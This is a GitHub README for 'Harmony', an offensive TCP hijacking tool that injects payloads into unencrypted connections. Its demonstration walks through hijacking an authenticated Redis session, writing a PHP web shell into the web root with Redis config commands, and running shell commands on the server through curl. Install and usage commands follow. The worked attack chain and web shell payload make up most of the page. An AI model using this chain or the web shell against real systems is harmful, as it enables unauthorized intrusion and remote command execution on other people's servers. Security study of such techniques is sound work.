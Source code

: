 # Harmony
Harmony is a pretty simple general-purpose TCP hijacking tool that can be used to inject custom payloads to a TCP connection via piping it to the program or by manually typing it. It does not work against encrypted connections like HTTPS and SFTP, but it's useful against old or misconfigured services, IOT devices and other server software that for some reason just don't have encryption enabled.
```
   ▌▐    ▌▐     ██     ▒▒▒    ░░       ░░  ░     ░   ░      ░   ·       ·      
   ▌▐    ▌▐    █  █    ▒  ▒   ░ ░     ░ ░         ░    ░          ·   ·        
   ▌▐▀▀▀▀▌▐   █▄▄▄▄█   ▒▒▒    ░  ░   ░  ░ ░          ░      ░        ·         
   ▌▐    ▌▐  █      █  ▒  ▒   ░   ░ ░   ░        ░        ░        ·           
   ▌▐    ▌▐ █        █ ▒   ▒  ░    ░    ░   ░ ░      ░     ░     ·             
```
## Demonstration
```
 Client                               Hacker
█▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀█▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀█
█                                    █                                                            █
█$nc 192.168.1.29 6479               █$python3 harmony.py --target 192.168.1.62:192.168.1.29:6379 █
█AUTH peter myPassword1sSecure       █Sniffing for a client PSH-ACK...                            █
█OK                                  █Connection hijacked, type away!                             █
█                                    █config set dir /var/www/html                                █
█                                    █OK                                                          █
█                                    █config set dbfilename test.php                              █
█                                    █OK                                                          █
█                                    █set tcprocks "<?php system($_GET['cmd']); ?>                █
█                                    █OK                                                          █
█                                    █save                                                        █
█                                    █Killing threads and exiting...                              █
█                                    █                                                            █
█                                    █$curl 192.168.1.29/test.php?cmd=id                          █
█                                    █uid=1000(peter) gid=1000(peter)                             █
█                                    █                                                            █
█                                    █$▌                                                          █
█                                    █                                                            █
█                                    █                                                            █
█                                    █                                                            █
█                                    █                                                            █
█▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄█▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄█
```
## Installation
```
git clone https://github.com/R00tendo/harmony
cd harmony
pip install -r requirements.txt
```

## Usage
`python3 harmony.py --target <target device IP>:<server IP>:<target server port>`

## Examples
```
python3 harmony.py --target 192.168.1.52:192.168.1.24:23
cat payload.bin |python3 harmony.py --target 192.168.1.39:192.168.1.53:21
```

## Learn what TCP hijacking is
https://medium.com/@R00tendo/tcp-connection-hijacking-deep-dive-9bbe03fce9a9
